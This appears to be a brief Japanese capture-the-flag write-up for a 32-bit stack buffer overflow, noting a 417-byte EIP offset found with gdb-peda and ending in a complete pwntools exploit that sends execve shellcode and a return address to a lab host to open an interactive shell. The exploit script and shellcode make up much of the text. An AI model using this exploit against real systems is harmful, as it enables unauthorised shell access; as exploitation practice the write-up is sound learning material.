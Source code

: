 # ポイント

- デバッグがうまくいかないことが多い。
  `ni` の挙動がおかしい時は、ブレークポイントしかけて`c` すればだいたい乗り切れる。
- gdb-pedaで `pattern_create 512` で長い文字列作って、 `run` して打ち込んであげればEIPが奪える。
  `pattern_offset nAsC` でオフセットが417であることが分かる。
- あとはユーザーの入力が保持されるバッファのアドレスがなかなか分からない。気合い。



# 解法

0x804A8D0 の関数が入力を行い、0x806B3E0の関数あたりで[esi] に書き込んでいる。

gdbで `hoge` とか入力してひたすら追って行ったらわかった。



```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

from pwn import *

rhp = {'host': '192.168.33.20', 'port':1234}
conn = remote(rhp['host'], rhp['port'])

shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'

res = conn.recvline()
log.info(res)


input_addr = 0x80f0340

payload = shellcode
payload += b'A' * (417 - len(shellcode))
payload += p32(input_addr)

conn.sendline(payload)
log.info('send payload')

conn.interactive()

```









